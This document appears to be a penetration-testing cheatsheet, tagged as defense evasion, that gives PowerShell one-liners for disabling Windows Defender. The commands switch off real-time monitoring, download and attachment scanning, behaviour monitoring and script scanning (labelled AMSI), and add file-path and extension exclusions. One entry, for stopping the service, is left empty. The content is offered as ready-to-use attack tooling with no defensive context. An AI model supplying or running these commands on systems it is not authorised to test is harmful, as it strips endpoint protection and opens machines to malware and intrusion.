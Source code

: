 # windows
% windows, defense evasion
#plateform/windows #target/local #cat/DEFENSE-EVASION


# pwsh
% windows, defense evasion

#plateform/windows #target/local #cat/DEFENSE-EVASION #tag/powershell 

## Defender - stop service
```powershell
```

## Defender - disable All

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; Set-MPPreference -DisableBehaviourMonitoring $true; Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring

```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI

```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions

```powershell
$p = "<path|c:\temp>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add extension to exclusions

```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```